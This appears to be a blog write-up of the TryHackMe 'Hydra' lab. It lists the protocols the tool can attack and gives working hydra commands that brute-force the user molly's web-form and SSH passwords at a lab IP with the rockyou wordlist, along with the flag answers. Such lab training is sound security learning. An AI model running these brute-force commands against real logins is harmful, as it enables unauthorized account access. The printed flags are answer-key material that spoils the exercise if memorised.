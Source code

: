 ```yaml
---
title: Hydra 
date: 2022-06-20 18:32:00 -0500
categories: [Lesson, Tryhackme]
tags: [hydra]
---
```


Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials. 

<https://tryhackme.com/room/hydra>

![0xskar](/assets/hydra.jpeg)

* * *

## Task 1 - Hydra Introduction 

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

* * * 

## Task 2 - Using Hydra 

##   Answer the questions below

**Use Hydra to bruteforce molly's web password. What is flag 1?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"``

- THM{2673a7dd116de68e85c48ec0b1f2612e}

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 ssh``

- THM{c8eeb0468febbadea859baeb33b2541b}

* * * 